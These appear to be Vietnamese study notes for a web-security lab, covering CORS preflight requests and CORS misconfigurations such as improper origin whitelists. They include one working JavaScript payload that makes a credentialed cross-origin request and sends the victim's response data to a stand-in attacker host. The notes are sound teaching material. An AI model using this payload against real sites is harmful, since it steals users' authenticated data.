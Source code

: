 #### **8. Yêu cầu đơn giản và Yêu cầu Preflight**

- **Yêu cầu đơn giản**: Là các yêu cầu **GET**, **HEAD**, hoặc **POST** với **Content-Type** là `application/x-www-form-urlencoded`, `multipart/form-data`, hoặc `text/plain`.
- **Yêu cầu Preflight**: Là một yêu cầu **OPTIONS** mà trình duyệt gửi trước để kiểm tra xem máy chủ có cho phép yêu cầu **cross-origin** hay không. Nếu máy chủ phản hồi với các header CORS cho phép, trình duyệt sẽ gửi yêu cầu chính thức tiếp theo.

**Ví dụ về Header Preflight**:

```http
Access-Control-Allow-Methods: GET, POST, PUT, DELETE
Access-Control-Allow-Headers: Content-Type
Access-Control-Allow-Credentials: true
```

---
# Giới thiệu CORS Misconfigurations

Trong phần này, chúng ta sẽ tìm hiểu các cấu hình sai (misconfigurations) phổ biến của **CORS** có thể dẫn đến lỗ hổng bảo mật trong các ứng dụng web và cách nhận diện chúng.

#### **1. Hậu quả của CORS Misconfigurations**

Cấu hình sai CORS có thể tạo ra nhiều kiểu tấn công nguy hiểm, đặc biệt khi header **Access-Control-Allow-Credentials** được thiết lập là `true`. Điều này cho phép trình duyệt gửi cookie và thông tin xác thực trong các yêu cầu **cross-origin**.

**Ví dụ về khai thác**:

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://api.vulnerablesite.htb/data', true);
  xhr.withCredentials = true;
  xhr.onload = () => {
    location = 'http://exfiltrate.htb/log?data=' + btoa(xhr.response);
  };
  xhr.send();
</script>
```

- Payload này gửi yêu cầu **cross-origin** đến `http://api.vulnerablesite.htb/data` và gửi kèm thông tin xác thực (cookie).
- Nếu nạn nhân truy cập vào trang chứa payload tại `http://exploitserver.htb/exploit`, yêu cầu sẽ được gửi kèm cookie của nạn nhân. Kết quả sẽ bị gửi đến máy chủ của kẻ tấn công tại `http://exfiltrate.htb/log`.
- Lỗ hổng này cho phép kẻ tấn công truy cập dữ liệu từ API mặc dù họ không có thông tin xác thực.

#### **2. CORS Misconfiguration 1: Improper Origin Whitelist**

**Bối cảnh**:

- Thay vì phản hồi với bất kỳ **origin** nào, ứng dụng web cần kiểm tra **origin** dựa trên danh sách các **origin** đáng tin cậy. Nếu kiểm tra không đúng cách, kẻ tấn công có thể vượt qua kiểm tra này.
- Ví dụ: API tại `http://api.vulnerablesite.htb` xác thực header `Origin` bằng cách kiểm tra xem nó có kết thúc bằng chuỗi `"vulnerablesite.htb"` không. Điều này không chỉ bao gồm các subdomain mà còn cả các domain kết thúc bằng `"vulnerablesite.htb"`.
